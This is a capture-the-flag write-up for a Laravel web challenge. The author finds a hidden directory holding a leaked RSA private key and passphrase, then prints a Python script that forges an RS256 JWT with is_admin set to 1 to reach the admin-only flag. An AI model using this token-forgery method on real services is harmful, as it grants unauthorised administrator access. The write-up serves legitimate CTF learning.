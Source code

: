## Just Wiggle Toes
### Description
```html
We're given service url
http://jakarta.ctf.protergo.party:10003/portal_login
it turns out the service is running on laravel and nothing with it

HTTP/1.1 200 OK
Server: nginx/1.25.3
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/8.1.27
Cache-Control: no-cache, private
Date: Thu, 08 Feb 2024 21:03:01 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6IllXR1pYWDBzZDRJekF2cVF1bWdVTGc9PSIsInZhbHVlIjoiWjJUbWtPL3hnTXRWUG4vbEtudElxaDEzNm5TUHMzTlJDSEk2NUx0SWo3anJXaVJCMXNPbnNrNHdEUWltY1g0a1FNTE4wNG9CYmg4TXNXMElqcmVaR2V4RndtK21aSUpGdVpMQWZvYjlUOGgvbG4weUhNcVlGUVcyWDF1c3R3TlIiLCJtYWMiOiI2ZTJiZDE0NzRmNTMyOTZkMjFlNmFkNjhlYzIxNjBlMGMyMGE4OTNjMzViZjYxYjFjODQ4ODY2Y2U5NzgwODYzIiwidGFnIjoiIn0%3D; expires=Thu, 08 Feb 2024 23:03:01 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6IkcxWXZBNFBnenB2bGNNc0JsTUtLalE9PSIsInZhbHVlIjoiUzVwVnhYd0FZamtkUWI4VytTdkJMRXFzcE9GOGFkZTZIUGRITVFlYVRhZU5yTFMwT2cyWWFmamhLMGxXMVFJdEhyeTFvWHdTWEZtQ1IzTlVjZVJFQWtCWnBMSG5DUHptZFdNYTBVKyswL25aMkg4SS84b0M2U1B0S3BEZ0tDNzUiLCJtYWMiOiJhYWNiYzk4ZDE1NzY2NTljNWMwM2Y0NmUyYzMyYmNhYWNjMWEzZTA3OGIyYTUzOWE1ZGYwZGMwYTI5ZmY5NmVjIiwidGFnIjoiIn0%3D; expires=Thu, 08 Feb 2024 23:03:01 GMT; Max-Age=7200; path=/; httponly; samesite=lax
Content-Length: 924

<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">
    <title>Home</title>
</head>
<body>

<div class="container" style="margin-top: 50px">
    <div class="row">
        <div class="col-md-5 offset-md-3">
            <div class="card">
                <div class="card-body">
                    Welcome to website!
                </div>
            </div>


        </div>
    </div>
</div>

<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" ></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/limonte-sweetalert2/8.11.8/sweetalert2.all.min.js"></script>

</body>
</html>


```
### Reconnaissance

Im very blind with this service since robots.txt give me nothing
```
User-agent: *
Disallow:
```
and im try to use dirbuster to find another path in this service
using this wordlist
```
https://github.com/drtychai/wordlists/blob/master/dirbuster/directory-list-2.3-medium.txt
```

Luckily dirbuster found something
```
/portal_register
/portal_login
/LittleSecrets
```
![URLImage](assets/img1.png)
![URLImage](assets/img3.png)

Just download all file in LittleSecrets

After registering and login, the login endpoint give me JWT token then and redirecting to /home its turn out 

```
Welcome user!
Sorry, only admin can view the secret.
```
![URLImage](assets/img2.png)

JWT TOKEN = **eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOi8vamFrYXJ0YS5jdGYucHJvdGVyZ28ucGFydHk6MTAwMDMvYXBpL3BvcnRhbF9sb2dpbiIsImlhdCI6MTcwNzQyNjU2NCwiZXhwIjoxNzA3NDMwMTY0LCJuYmYiOjE3MDc0MjY1NjQsImp0aSI6IlRpUFBtN3BncW9LV2VycWEiLCJzdWIiOiIzNSIsInBydiI6IjNkYTA0NTA3YWFkZjEzMmNlZTczMmZkZWU0ZWY2YWEzOTBkZWM1NzkiLCJpc19hZG1pbiI6MH0.dCWl9Z_VUa1qCcDcTUigKFmHI2BlrYjAz2KHdviAlJsuPuZQAHgnz2I0Jug6SBkXlCTat7ddaEL5-LSc3ebD0N_N7oUDnOChIU_jLAZgFnFmQax-MIc0K_iKFsf90Tdg15kV4K8p2RzJR9FmD9WSt2B79hpoOuihjJgHeg6RQZaJ3AMPhKskmK7OLS7kkelYX-CgwGWny9fdDgGasudg7OVb6yXapdMro5wjqrQGa1-A_-qC4u06jeh6Ay2NMiNY8RRMUELxzVvR_0rAsjyfVL3xXc0fxAHYzW4clQsQs45a4jy3Ll4BdhtHeZs_fDydey3lpxTbv-8yw80safMb6czbuotKyUOQlMtZHW9c4ciTssoZRJX1gY8bTNXzrI51Jj0gGmF-nQ8G4Rg3W8HVP5cC03Syi0x2z58wszrnmeQDqa8nAdIGeeq9Hl0dd_jDD906tN4JtUPrQvwEWXtniWaQeKWFo1AST1mm4ruqp7qJ8_I2nEuGANEi7yGby1ivzZEQFKkXqox38dA7klXGmd1zjuTcg-HSjldv5qCn5uyEnzK-mu-auQfO4YcOaQdNTgzxii9uaIdy5lbjwm1d-SbuMpNgdeApikSymEk8QaFjOGE0U3WJaAuXpdBWKmTz6Fo5C-5tiSXM_Z-WFP0PwVoiO-13sr-cYFJ_Q0joLr0**

What is JWT Token ?

JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA or ECDSA.

In its compact form, JSON Web Tokens consist of three parts separated by dots (.), and encoded with base64 which are:
- Header
- Payload
- Signature

Therefore, a JWT typically looks like the following.

**xxxxx.yyyyy.zzzzz**
in my case the JWT token structure is here:

|PART|VALUE|
|-|-|
|HEADER|{"typ":"JWT","alg":"RS256"}|
|PAYLOAD|{"iss":"http://jakarta.ctf.protergo.party:10003/api/portal_login","iat":1707426564,"exp":1707430164,"nbf":1707426564,"jti":"TiPPm7pgqoKWerqa","sub":"35","prv":"3da04507aadf132cee732fdee4ef6aa390dec579","is_admin":0}|
|SIGNATURE|UNPRINTABLE ASCII CHAR|

### EXPLOITATION
Since we got all information we needed

the target for this exploitation is change **"is_admin":0** to **"is_admin":1** in the JWT token
since we already got passphrase and private.pem just craft the JWT token with the payload
```json
{
    "iss":"http://jakarta.ctf.protergo.party:10003/api/portal_login",
    "iat":1707426564,
    "exp":1707430164,
    "nbf":1707426564,
    "jti":"TiPPm7pgqoKWerqa",
    "sub":"35",
    "prv":"3da04507aadf132cee732fdee4ef6aa390dec579",
    "is_admin":1
}
```

### SOLUTION
```py
import jwt
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
with open('private.pem', 'rb') as f:
    private_key_pem = f.read()

with open('passphrase', 'rb') as f:
    passphrase = f.read().strip()

private_key = serialization.load_pem_private_key(
    private_key_pem,
    password=passphrase,
    backend=default_backend()
)

payload = {
    "iss":"http://jakarta.ctf.protergo.party:10003/api/portal_login",
    "iat":1707426564,
    "exp":1707430164,
    "nbf":1707426564,
    "jti":"TiPPm7pgqoKWerqa",
    "sub":"35",
    "prv":"3da04507aadf132cee732fdee4ef6aa390dec579",
    "is_admin":1
}
token = jwt.encode(payload, private_key, algorithm='RS256')
print(token)
```
Got the token: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJodHRwOi8vamFrYXJ0YS5jdGYucHJvdGVyZ28ucGFydHk6MTAwMDMvYXBpL3BvcnRhbF9sb2dpbiIsImlhdCI6MTcwNzQyNjU2NCwiZXhwIjoxNzA3NDMwMTY0LCJuYmYiOjE3MDc0MjY1NjQsImp0aSI6IlRpUFBtN3BncW9LV2VycWEiLCJzdWIiOiIzNSIsInBydiI6IjNkYTA0NTA3YWFkZjEzMmNlZTczMmZkZWU0ZWY2YWEzOTBkZWM1NzkiLCJpc19hZG1pbiI6MX0.ZxgV2DOBgXedpIJjbT6vKb2aDIwYoFa4lNA69xjJ7ntnUlU1SkjX-tQRwZf0viZgCbuEtsMtxIVFXXOHwdgmMJYksngE-JwR-V8PgoKSQRuY7q1ocXbNx_TQUZM2JyKb5Pvi0YpSLT7iZPYtOk9tN3p8G1yXSiVQTuJqzcZhsRlrwDzftNrNebJIHgxPkX3_qOxI0sNvJLI_p-oHf2sYhFV6oXyYyaPy_cY_4jIALEUDbjj73pbPDzanqG-KgWFFVmlMSHK3f27OM9O-pkkKFYpbu476W5hLsNJ0MJwlMssm_Z7w9aaoeM0o9gbmgJ8V-HG01T4AU-YCinrQTIM5W_nK5Xw7lTNZoeHAlAJaYBS4zfgIkCzwclGkOX671UiWUDBPVWuTRsCMVfxuBUByN-KshIHwhhOF3zisP1T0c57I5w70cadQNDogdWH9ug04UHO325oDSIWz67SH_rsiRWvTzrNXBi4crrJmLFP4r8M-D698lS7DGjH_tg7ZlcRqF_I1D7otebkWSm7b0TQ206Yfis22sN7PSi6bcnFrNMLXc2b-DfJ6wg6UWER2ANV125bbJZAAWddhbolswaGs6JyhSdV2csM18_1IPGFjb3A4cmqWg6zzKvceJteL4yTQFF_0XWVMVpjEA5eP746zwp3YARBRBuwcA1s3pIo3DPo

then just request to /home with that token


FLAG: **PROTERGO{f5016c424def47159321869c8e7ff4cac79b9e721c0d700cf7c0c8ab7f43b203}**
